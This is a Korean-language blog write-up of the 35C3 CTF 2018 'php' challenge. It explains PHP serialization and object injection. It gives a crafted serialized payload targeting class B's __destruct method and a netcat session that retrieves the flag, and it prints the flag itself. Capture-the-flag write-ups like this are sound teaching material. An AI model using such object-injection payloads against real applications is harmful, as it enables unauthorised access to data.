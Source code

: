 ```yaml
---
title: "[35C3 CTF 2018] php Write up"
date: 2018-12-30
draft: false
category: [ctf]
subcategories: [2018]
tags: [Write-up, CTF, 35C3CTF2018]
---
```


어제 ctftime을 돌아보다가 `35C3 CTF`가 하고 있길래 한 문제를 풀어보았다.
원래 몇개 더 풀어보고 싶었는데 어떻게 푸는건지를 모르겠다.
아직 Write up이 안올라왔던데, 나중에 올라오면 찾아봐야겠다.  

<!--more-->

일단 `php` 문제 정보는 다음과 같다.  

```plain
PHP's unserialization mechanism can be exceptional. Guest challenge by jvoisin.

Files at https://35c3ctf.ccc.ac/uploads/php-ff2d1f97076ff25c5d0858616c26fac7.tar. Challenge running at: nc 35.242.207.13 1
```

파일을 다운받아 압축을 풀어보면 `php.php` 파일을 확인할 수 있다.
`php.php`의 내용은 다음과 같다.  

```php
<?php

$line = trim(fgets(STDIN));

$flag = file_get_contents('/flag');

class B {
  function __destruct() {
    global $flag;
    echo $flag;
  }
}

$a = @unserialize($line);

throw new Exception('Well that was unexpected…');

echo $a;
```

`STDIN`으로 입력 값을 받아 `$line`에 저장한 후, 이를 `unserialize` 함수를 통해 `unserialize` 한 값을 `$a`에 저장한다.
마지막으로 `$a`를 출력 해 준다.
그런데 위를 살펴보면 `B`라는 `class`가 선언되어 있고, `__destruct` 함수 안에 `$flag`함수를 출력 해 준다.
아무래도 `unserialize` 함수의 취약점(?)을 가지고 푸는 문제인 것 같아 일단 `unserialize`함수가 무엇인지를 찾아보았다.  

### serialize()  
```
PHP 변수들을 string으로 만들어 주는 함수  
ex) serialize(array(3, 4, 5, 6)) => a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}  
a:4 => 배열의 크기는 4  
object 일 경우 O:object_name_length:"object_name":object_size:  
ex) O:8:"stdclass":8:  
i:0;i:3 => 배열 첫 번째 인덱스의 값은 3  
int가 아닌 string 형태 일 경우 s:string_length:"string";    
ex) s:3:"one";
```

### unserialize()  
```
serialize 된 변수를 PHP 값으로 변환  
ex) unserialize(a:4:{i:0;i:3;i:1;i:4;i:2;i:5;i:3;i:6;}) => Array([0] => 3 [1] => 4 [2] => 5 [3] => 6)  
```

그런데 찾아보다 보니, 아래와 같은 블로그를 찾을 수 있었다.  

> [http://qkqhxla1.tistory.com/444](http://qkqhxla1.tistory.com/444)

`php object injection`에 대한 설명인데, 취약점 exploit을 위한 아래의 두 가지 조건이 `php` 문제와 정확히 일치한다.  

1. 어플리케이션은 php의 매직 메소드(__wakeup이나 destrust 같은)를 구현한 클래스를 가지고 있어야 한다.  
2. 공격중의 모든 클래스들은 취약한 unserialize()가 호출되기 전에 선언되어야 한다.  

그래서 아래와 같이 입력 해 보았다.  

```plain
O:1:"B":1{s:4:"flag";s:5:"/flag";}
```

그러면 `B` 클래스에 `flag`라는 이름으로 `/flag`를 할당하고 `__destruct` 메소드를 호출하며 `echo $flag`를 실행 할 것이다.
문제에 접속하여 위와 같이 입력 했더니 flag를 읽을 수 있었다!  

```sh
$ nc 35.242.207.13 1
O:1:"B":1{s:4:"flag";s:5:"/flag";}
35C3_php_is_fun_php_is_fun
PHP Fatal error:  Uncaught Exception: Well that was unexpected… in /home/user/php.php:16
Stack trace:
#0 {main}
  thrown in /home/user/php.php on line 16
```

그런데 이 문제 다시 생각 해 보니 어찌됬든 `__destruct` 메소드만 호출하도록 하면 되서 굳이 내가 한 방식 말고 `O:1:"B":1:{}` 이런식으로 해도 문제가 풀릴 것 같다.
근데 뭐 풀었으니 됬다 ㅎㅎㅎ  

```plain
35C3_php_is_fun_php_is_fun
```
